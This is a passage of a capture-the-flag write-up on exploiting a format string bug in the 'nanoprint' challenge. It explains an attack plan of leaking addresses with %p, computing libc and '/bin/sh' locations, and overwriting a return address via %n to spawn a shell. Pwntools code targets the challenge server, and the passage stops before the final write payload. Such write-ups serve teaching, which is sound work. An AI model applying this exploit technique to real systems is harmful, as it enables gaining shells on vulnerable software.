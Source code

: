 #### Attack Plan

1. Leak address of `a` and `system`
2. Compute location of libc and the string `/bin/sh` in libc
3. Overwrite return address with `system` + arg `/bin/sh`
4. Get a shell, get the flag


#### Leak address of `a` and `system`

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./nanoprint')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('dorsia3.wpictf.xyz',31337)
libc = ELF('libc.so.6')

_ = p.recvline().strip()

a =  int(_[:10],16)
system = int(_[10:],16) + 288
```

This picks up the output from `printf("%p%p\n",a,system-288);`.  The conversion specifier `%p` just prints the address of the parameter.  Handy for leaking addresses.

> The above code assumes none of the address start with `0x0`, but start with `0x[1-f]`; if the address started with `0x0` the string would be shorter and these hardcoded slices would fail (i.e., the second `0` and any following are not displayed).  In this case it was not a problem.


#### Compute location of libc and the string `/bin/sh` in libc

```python
return_address = a + 0x5d + 4 + 0x10
baselibc = system - libc.symbols['system']
binsh = baselibc + next(libc.search(b"/bin/sh"))
```

Setting the `return_address` as described in the _Analysis_ section above.

Using the location of `system`, the base of libc can be computed, as well as a pointer to the string `/bin/sh`. 


#### Overwrite return address with `system` + arg `/bin/sh`

If you're not familiar with format string exploits, please pause and read: [https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf).  I think this was the first Google hit.

The abridged version is that `printf` has a format string conversion specifier `%n`, that will write to an address passed as a parameter, the number of characters emitted for that `printf` call.  E.g. `printf("123%n",&char_count)` will store the number `3` in the integer `char_count` since  `3` characters were emitted _before_ the `%n` (the `%n` _emits nothing_ :-).

